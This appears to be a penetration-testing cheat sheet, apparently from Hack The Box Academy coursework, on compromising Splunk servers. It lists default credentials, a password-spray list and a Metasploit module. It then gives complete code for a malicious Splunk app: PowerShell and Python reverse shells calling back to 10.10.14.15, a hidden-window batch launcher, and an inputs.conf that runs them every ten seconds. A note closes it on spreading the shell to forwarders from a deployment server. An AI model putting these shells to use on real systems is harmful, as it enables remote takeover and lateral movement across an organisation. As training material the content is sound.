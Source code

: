 ### Footprinting + Enumeration
The Splunk web server runs by default on `port 8000`. On older versions of Splunk, the default credentials are `admin:changeme`, which are conveniently displayed on the login page.
![image](https://academy.hackthebox.com/storage/modules/113/changme.png)

**The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication**. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. **This will automatically convert to the free version that does not have any form of authentication**, introducing a security hole in the environment. Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.

Once logged in to Splunk (or having accessed an instance of Splunk Free), we can browse data, run reports, create dashboards, install applications from the Splunkbase library, and install custom applications.
![](https://academy.hackthebox.com/storage/modules/113/splunk_home.png)
### Exploitation
#### Password Spraying
```bash
changeme
admin
Welcome
Welcome1
Password123
```

#### RCE
###### Metasploit
```bash
use exploit/multi/http/splunk_upload_app_exec
```
###### Manual
Create malicious app - Folder Structure
```bash
adot8@htb[/htb$ tree splunk_shell/

splunk_shell/
├── bin
└── default
```
The **bin** directory will contain the reverse shell/scripts we want to run. The **defaults** directory will host our `inputs.conf file`

Make `rev.ps1` (Windows)
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

Make `rev.py` (Linux)
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')

```

Make `run.bat` to call r`ev.ps1`
```powershell
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

Create tarball or `.spl`
```shell
tar -cvzf updater.tar.gz splunk_shell/
```

Setup listener

`Apps` -> `Manage Apps` -> `Install app from file` -> `Upload`

> [!NOTE] Note
>  If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.


